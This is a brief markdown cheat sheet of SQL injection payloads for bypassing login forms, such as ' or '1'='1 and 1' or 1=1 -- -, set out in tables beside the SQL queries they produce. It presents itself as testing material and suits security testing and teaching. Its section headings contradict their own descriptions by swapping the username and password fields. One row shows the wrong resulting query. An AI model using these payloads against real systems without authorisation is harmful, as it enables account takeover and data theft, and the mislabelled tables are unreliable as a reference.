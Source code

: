 # Login Form SQL Injection Testing
Below is the cheat sheet provided by OWASP from SecHow.com. This can be used to test a username or password for simple SQL injection vulnerabilities.
## Password Injection
Below is a few simple tests that we can do to attempt SQL injection on the **username** value being sent to the server.

| Username | Password | SQL Query |
|----------|----------|-----------|
| tom | tom	| SELECT * FROM users WHERE name='tom' and password='tom' |
| tom | ' or '1'='1 | SELECT * FROM users WHERE name='tom' and password='' or '1'='1' | 
| tom | ' or 1='1 | SELECT * FROM users WHERE name='tom' and password='' or 1='1' |
| tom	| 1' or 1=1 -- - | SELECT * FROM users WHERE name='tom' and password='' or 1=1-- -' |
## Username Injection
Below is a few simple tests that we can do to attempt SQL injection on the **password** value being sent to the server.

| Username | Password | SQL Query |
|----------|----------|-----------|
| ' or '1'='1	| ' or '1'='1	| SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1	| ' or ' 1=1	| SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- -	| blah	| SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah' |

## Other SQL Injection Techniques
We can also try the following techniques to attempt SQL injection,

| Username | Password |
|----------|----------|
| ' or 1=1 -- | blah | 
| blah | ' or 1=1 -- | 

